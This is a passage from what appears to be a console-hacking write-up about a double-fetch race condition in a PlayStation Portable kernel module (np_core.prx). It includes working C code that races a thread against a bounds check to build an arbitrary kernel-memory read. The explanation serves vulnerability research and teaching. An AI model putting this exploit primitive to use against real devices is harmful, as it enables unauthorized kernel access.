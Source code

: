 Note that all these arguments come from userland, and they are not first saved into some kernel buffer. Moreover, note that the index `input[1]` is fetched twice.

This opens a new possibility for an attacker: what if `input[1]` changes between the time of check and the time of use (a TOCTTOU problem)?
This very small window allows us to first pass a valid index, then just after the check, quickly change it to a higher index than 9 and achieve an out-of-bounds access. This is a so called double-fetch race condition :-)

```c
static volatile int running;
static volatile int idx;
static int input[3];

static int racer(SceSize args, void *argp) {
  running = 1;

  while (running) {
    input[1] = 0;
    sceKernelDelayThread(10);
    input[1] = idx;
    sceKernelDelayThread(10);
  }

  return sceKernelExitDeleteThread(0);
}

static u32 read_kernel_word(u32 addr) {
  SceUID thid = sceKernelCreateThread("", racer, 8, 0x1000, 0, NULL);
  if (thid < 0)
    return 0;

  sceKernelStartThread(thid, 0, NULL);

  char string[8];
  int round = 0;

  idx = -83; // relative offset 0xB00 in np_core.prx (0xD98 + (-83 << 3))

  int i;
  for (i = 0; i < 100000; i++) {
    u32 res = sceNpCore_8AFAB4A0(input, string, sizeof(string));
    if (res != 5 && res != 0x80550203) {
      switch (round) {
        case 0:
          round = 1;
          idx = (addr - (res - 0xA74) - 0xD98) >> 3;
          break;
        case 1:
          running = 0;
          return res;
      }
    }
  }

  running = 0;
  return 0;
}
```
